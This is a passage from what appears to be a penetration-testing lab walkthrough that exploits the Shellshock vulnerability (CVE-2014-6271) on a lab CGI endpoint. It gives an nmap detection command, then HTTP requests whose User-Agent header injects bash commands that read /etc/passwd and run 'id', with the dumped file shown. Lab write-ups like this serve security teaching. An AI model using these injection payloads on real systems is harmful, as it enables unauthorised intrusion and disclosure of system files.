 ### Step 2: Vulnerability Verification
```bash
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local
```

**Expected Output:**
```
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
```

### Step 3: Manual Exploitation via Burp Suite

**Original Request:**
```http
GET /gettime.cgi HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
```

**Step 3.1: File System Access**
```http
GET /gettime.cgi HTTP/1.1
Host: demo.ine.local
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
Accept: */*
```

**Response - /etc/passwd contents:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```

**Step 3.2: User Identification**
```http
GET /gettime.cgi HTTP/1.1
Host: demo.ine.local  
User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'
Accept: */*
```
